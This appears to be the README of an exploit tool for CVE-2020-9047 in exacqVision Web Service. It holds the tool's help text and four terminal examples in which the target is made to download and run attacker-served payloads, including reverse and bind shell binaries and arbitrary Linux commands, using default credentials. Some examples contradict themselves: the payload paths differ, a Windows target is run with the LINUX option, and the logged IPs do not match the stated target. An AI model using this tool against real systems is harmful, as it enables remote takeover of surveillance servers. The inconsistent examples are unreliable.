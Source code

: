 ### Usage/Help Menu

```
usage: evws.py [-h] [-p RPORT] [-s LPORT] [--command] [-d WEBDIR]
               [-U USERNAME] [-P PASSWORD]
               {WINDOWS,LINUX,CHECK} RHOST LHOST PAYLOAD

Exploit for exacqVision Web Service as outlined in CVE-2020-9047. This program
targets Windows and Linux x86 installations of exacqVision Web Service
versions 3.8.2.67295 - 20.06.3.0. Written by Michael W. Norris.

positional arguments:
  {WINDOWS,LINUX,CHECK}
                        The target operating system. Provide "WINDOWS" for
                        Windows, "LINUX" for Linux, or "CHECK" to have this
                        program perform a check. When using "CHECK", '' can be
                        provided for the LHOST and PAYLOAD arguments.
  RHOST                 The IP address of the remote host; the IP address of
                        the target.
  LHOST                 The local IP address that will serve the payload for
                        the remote host. This should not be "localhost" or
                        "127.0.0.1". The remote host will need to be able to
                        connect to the provided IP address. This program
                        should be run on the system with the specified IP
                        address.
  PAYLOAD               The absolute file path of an existing Windows
                        executable (.exe) or Linux binary file on the local
                        system. The binary will be executed on the remote
                        host. If the --command flag is set and "LINUX" was
                        provided as the TARGET argument, enter a command that
                        will be executed on the remote host.

optional arguments:
  -h, --help            show this help message and exit
  -p RPORT              The port on the remote host where exacqVision Web
                        Service is running. Default: 80
  -s LPORT              The local port that will be used to serve the payload
                        file for the remote host. Default: 8000
  --command             Sets the command flag. The flag allows for a command
                        to be provided as the PAYLOAD argument instead of a
                        file path to a binary. The provided command will be
                        executed on the remote host. The flag should be set
                        only if "LINUX" was provided as the TARGET argument.
  -d WEBDIR             The local existing directory where a randomly named
                        temporary directory will be created. Default: /tmp
  -U USERNAME           The username for authenticating to the remote
                        exacqVision Web Service application. Default: admin
  -P PASSWORD           The password for authenticating to the remote
                        exacqVision Web Service application. Default: admin256
```

### Usage Example I: System Check
To check whether a system is vulnerable to CVE-2020-9047 as well as susceptible to this exploit and/or to fingerprint the remote host's operating system/architecture, use the following command syntax. In this example, the remote host is 10.0.0.22 (`RHOST`).

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py CHECK 10.0.0.22 '' ''
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
```

### Usage Example II: Linux ELF File Payload
To instruct the remote Linux system 10.0.0.22 (`RHOST`) running exacqVision Web Service on TCP port 8080 to install/execute an ELF binary payload that is present on the local system 10.0.0.11 (`LHOST`) on TCP port 80 at absolute file path `/root/demo/shell_reverse_tcp` (`PAYLOAD`), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.22 -p 8080 10.0.0.11 -s 80 '/root/demo/ping_me'
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
Confirm the specified PAYLOAD is compatible with the remote architecture
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:80
Serving payload from /tmp/tmpo7516343 directory

192.168.57.161 - - [03/Jun/2020 23:11:09] "GET /op0tv6l4 HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:11:13] "GET /aax35u41.deb HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpo7516343
Stopping HTTP server on 0.0.0.0:80
```

### Usage Example III: Linux Command Payload
To specify a command (`--command`) to be excuted on the remote Linux system as the `PAYLOAD` argument (instead of an ELF binary payload), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.22 10.0.0.11 --command 'ping -c 5 10.0.0.11'
Target OS: Linux i686
EVWS Version: 7.8.2.97826

Exploitable: YES
The provided command will be executed on the remote system
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:8000
Serving payload from /tmp/tmpp2wmx5x3 directory

192.168.57.161 - - [03/Jun/2020 23:22:04] "GET /no_n0zgk HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:22:08] "GET /1vlkyw3.deb HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpp2wmx5x3
Stopping HTTP server on 0.0.0.0:8000
```

*Note: Specifying a command as a the PAYLOAD argument is only supported for remote Linux hosts.*

### Usage Example IV: Windows Executable File Payload
To instruct the remote Windows system 10.0.0.33 (`RHOST`) with the exacqVision Web Service password of `asdf1234!@#$` to install/execute a Windows executable payload that is present on the local system 10.0.0.11 (`LHOST`) at absolute file path `/root/demo/shell_bind_tcp.exe` (`PAYLOAD`), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.33 -P 'asdf1234!@#$' 10.0.0.11 '/root/demo/shell_bind_tcp.exe'
Target OS: windows Intel(R) Core(TM) i3-3220 CPU @ 3.30GHz
EVWS Version: 9.8.4.149166

Exploitable: YES
Confirm the specified PAYLOAD is compatible with the remote architecture
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:8000
Serving payload from /tmp/tmpgizzpfa4 directory

192.168.57.161 - - [03/Jun/2020 23:25:09] "GET /4kdjekqk HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:25:13] "GET /fp92ecyj.exe HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpgizzpfa4
Stopping HTTP server on 0.0.0.0:8000
```
